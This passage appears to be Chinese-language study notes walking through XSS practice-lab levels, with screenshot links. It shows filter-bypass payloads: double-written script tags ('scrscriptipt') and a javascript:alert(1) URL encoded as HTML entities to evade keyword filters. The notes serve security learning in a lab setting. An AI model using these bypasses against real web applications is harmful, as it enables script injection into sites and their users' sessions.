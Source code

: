 过滤了script

```
<script>alert(1)</script>
```

![image-20240507200951313](D:\Infiltration\笔记\note\图片\image-20240507200951313.png)

双写绕过	

```
"><scrscriptipt>alert(1)</scrscriptipt><"
```

![image-20240507222134077](D:\Infiltration\笔记\note\图片\image-20240507222134077.png)





##### 第八关



![image-20240507223209690](D:\Infiltration\笔记\note\图片\image-20240507223209690.png)





过滤script，大小写双写都不能绕过

![image-20240507223627630](D:\Infiltration\笔记\note\图片\image-20240507223627630.png)

unicode编码

```
javascript:alert(1)
&#x006a&#x0061&#x0076&#x0061&#x0073&#x0063&#x0072&#x0069&#x0070&#x0074&#x003a&#x0061&#x006c&#x0065&#x0072&#x0074&#x0028&#x0031&#x0029
```

![image-20240507223340398](D:\Infiltration\笔记\note\图片\image-20240507223340398.png)



![image-20240507223650747](D:\Infiltration\笔记\note\图片\image-20240507223650747.png)

##### 第九关

![image-20240507224234929](D:\Infiltration\笔记\note\图片\image-20240507224234929.png)



需要字符串中带有http://



![image-20240507224215886](D:\Infiltration\笔记\note\图片\image-20240507224215886.png)

unicode编码

```
javascript:alert(1)
&#x006a&#x0061&#x0076&#x0061&#x0073&#x0063&#x0072&#x0069&#x0070&#x0074&#x003a&#x0061&#x006c&#x0065&#x0072&#x0074&#x0028&#x0031&#x0029
```
